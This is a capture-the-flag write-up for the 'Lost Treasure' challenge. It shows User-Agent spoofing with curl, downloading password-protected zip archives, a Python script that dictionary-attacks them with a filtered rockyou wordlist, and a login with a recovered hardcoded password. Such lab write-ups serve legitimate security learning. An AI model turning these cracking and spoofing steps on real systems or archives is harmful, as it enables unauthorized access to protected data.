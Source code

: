 ```yaml
---
layout: posts
title: Lost Treasure (50 pts)
date:   2020-05-05
categories: [CTFs, cronosCTF18]
---
```


[~$ cd ..](ctfs/cronosctf18/2020/05/05/index.html)

>Ahoy! We 'ave lost a booty 'n know that thar be a map available t' find th' booty.
>Can ye help us find th' booty at <51.68.252.196:8081>.

We are landed on a flat website:

![site](/assets/res/CTFs/cronos_18/lost_treasure/site.png)

As usual, I checked if there was a robots.txt and found:

>User-agent: BlackPearl  
>Allow: /Isla de Muerta  
>User-agent: Pirate  
>Allow: /TreasureMaps  
>User-agent: *  
>Disallow: /Isla de Muerta  
>Disallow: /TreasureMaps  

I then sent a request with expected User-agent:

```bash
% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/"  > TreasureMaps.html
```

and got the [following file](/assets/res/CTFs/cronos_18/lost_treasure/TreasureMaps.html):

```html
<html>
<head><title>Index of /TreasureMaps/</title></head>
<body bgcolor="white">
<h1>Index of /TreasureMaps/</h1><hr><pre><a href="../">../</a>
<a href="README.txt">README.txt</a>                                         19-Sep-2018 13:44                  98
<a href="map1.zip">map1.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map10.zip">map10.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map11.zip">map11.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map12.zip">map12.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map13.zip">map13.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map14.zip">map14.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map15.zip">map15.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map16.zip">map16.zip</a>                                          19-Sep-2018 13:44                1521
<a href="map2.zip">map2.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map3.zip">map3.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map4.zip">map4.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map5.zip">map5.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map6.zip">map6.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map7.zip">map7.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map8.zip">map8.zip</a>                                           19-Sep-2018 13:44                1521
<a href="map9.zip">map9.zip</a>                                           19-Sep-2018 13:44                1521
</pre><hr></body>
</html>
```

Let's begin with the README:

```bash
% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/README.txt"             
  All our zip files are secured with passwords. Only someone called "RockYou" knows the passwords!
```

and the archives:

```bash
for i in {1..16}; do curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/map$i.zip" -o "map$i.zip" ;done
```

I then naively started with a dictionary attack with rockyou.txt using a for loop on each archive, but realized that it could no work:

```bash
% for i in {1..16}; do fcrackzip -v -u -D -p rockyou.txt map$i.zip; done
```

because `fcrakzip` couldn't handle properly the kind of file:

```bash
% file map1.zip
  map12.zip: Zip archive data, at least v5.1 to extract
% unzip map1.zip
  Archive:  map1.zip
    skipping: f864ae468a              need PK compat. v5.1 (can do v4.6)
```

I looked for a tool is order to crack password quickly, but didn't found. I then realized that I didn't have to crack them all:

```bash
% md5sum *                    
b32697dc1e9e8da35b9732a8e2859657  map10.zip
b32697dc1e9e8da35b9732a8e2859657  map11.zip
b32697dc1e9e8da35b9732a8e2859657  map12.zip
fe2f3b7c371400f331aa9e975bfc825a  map13.zip
b32697dc1e9e8da35b9732a8e2859657  map14.zip
b32697dc1e9e8da35b9732a8e2859657  map15.zip
b32697dc1e9e8da35b9732a8e2859657  map16.zip
b32697dc1e9e8da35b9732a8e2859657  map1.zip
b32697dc1e9e8da35b9732a8e2859657  map2.zip
b32697dc1e9e8da35b9732a8e2859657  map3.zip
b32697dc1e9e8da35b9732a8e2859657  map4.zip
b32697dc1e9e8da35b9732a8e2859657  map5.zip
b32697dc1e9e8da35b9732a8e2859657  map6.zip
b32697dc1e9e8da35b9732a8e2859657  map7.zip
b32697dc1e9e8da35b9732a8e2859657  map8.zip
b32697dc1e9e8da35b9732a8e2859657  map9.zip
b828b8825c21ac97afce52afbaac5ca6  README.txt
432e5e794481c58c572905d67c27d189  TreasureMaps.html
```

I then kept only [map12.zip](/assets/res/CTFs/cronos_18/lost_treasure/map12.zip) and [map13.zip](/assets/res/CTFs/cronos_18/lost_treasure/map13.zip) and wrote a (non-optimized) Python script to break the passwords:

```python
import subprocess
f = open('pirate.txt', 'r')
passwords = f.read().splitlines()
f.close()
for word in passwords:
	cmd = '7z e -y map12.zip -p%s' % word
	process = subprocess.Popen(cmd.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
	output, error = process.communicate()
	if "ERROR" not in error:
		print word
		process = subprocess.Popen('wc f864ae468a'.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
		output, error = process.communicate()
		print output
		print '-------------'
```

I made the assumption that they were related to the theme of the piracy.
I then `grep`'d rockyou in this way and run the script:

```bash
% grep rockyou.txt -ie pirate > pirate.txt
% run brute.py
 ohs pirate
 0 0 0 f864ae468a

 -------------
 pirates arr cool
 0 0 0 f864ae468a

 -------------
 pirate girl
 0 0 0 f864ae468a

 -------------
 my pirate
 0 0 0 f864ae468a

 -------------
 iwannabeapirate
 90  209 3677 f864ae468a

 -------------
 i luv pirate forever
 0 0 0 f864ae468a
% 7z e -y map13.zip -piwannabeapirate

 7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
 p7zip Version 16.02 (locale=fr_FR.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-4200U CPU @ 1.60GHz (40651),ASM,AES-NI)

 Scanning the drive for archives:
 1 file, 1521 bytes (2 KiB)

 Extracting archive: map13.zip
 --
 Path = map13.zip
 Type = zip
 Physical Size = 1521

 Everything is Ok

 Size:       3677
Compressed: 1521
```

Password found! I then used **"iwannabeapirate"** and extract the file [/assets/res/CTFs/cronos_18/lost_treasure/f864ae468a](/assets/res/CTFs/cronos_18/lost_treasure/f864ae468a):

```php
<?php
if (isset($_POST['submit'])){
	if($_POST["password"] == "todayisagoodday") {
		header("Location: "); //TODO: add treasure location
		die();
	}
	else {
		header("Location: brrrt.html");
		die();
	}
}
?>
...
```

I then sent the following request to get the location of the treasure:

```bash
% curl -d "submit=&password=todayisagoodday" -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/index.php"  -v
 *   Trying 51.68.252.196...
 * TCP_NODELAY set
 * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
 > POST /Isla de Muerta/index.php HTTP/1.1
 > Host: 51.68.252.196:8081
 > Accept: */*
 > User-agent: BlackPearl
 > Content-Length: 32
 > Content-Type: application/x-www-form-urlencoded
 >
 * upload completely sent off: 32 out of 32 bytes
 < HTTP/1.1 302 Moved Temporarily
 < Server: nginx/1.12.2
 < Date: Thu, 04 Oct 2018 16:32:14 GMT
 < Content-Type: text/html
 < Transfer-Encoding: chunked
 < Connection: keep-alive
 < X-Powered-By: PHP/5.4.16
 < Location: Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html
 <
 * Curl_http_done: called premature == 0
 * Connection #0 to host 51.68.252.196 left intact
```

And capture the flag

```bash
 % curl -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html"  -v
 *   Trying 51.68.252.196...
 * TCP_NODELAY set
 * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
 > GET /Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html HTTP/1.1
 > Host: 51.68.252.196:8081
 > Accept: */*
 > User-agent: BlackPearl
 >
 < HTTP/1.1 200 OK
 < Server: nginx/1.12.2
 < Date: Thu, 04 Oct 2018 16:33:14 GMT
 < Content-Type: text/html
 < Content-Length: 317
 < Last-Modified: Wed, 19 Sep 2018 13:44:20 GMT
 < Connection: keep-alive
 < ETag: "5ba252b4-13d"
 < Accept-Ranges: bytes
 <
 <head>
  <title>Treasure</title>
  <style>
    html, body, .container {
        height: 100%;
    }
    .container {
        color: white;
        display: none;
    }
  </style>
</head>
<body>
  <h1>Treasure</h1>
  <div class="container">
    <p>AllTreasuremapsLeadToATreasure</p>
  </div>
</body>
* Curl_http_done: called premature == 0
* Connection #0 to host 51.68.252.196 left intact
```

FLAG: **AllTreasuremapsLeadToATreasure**
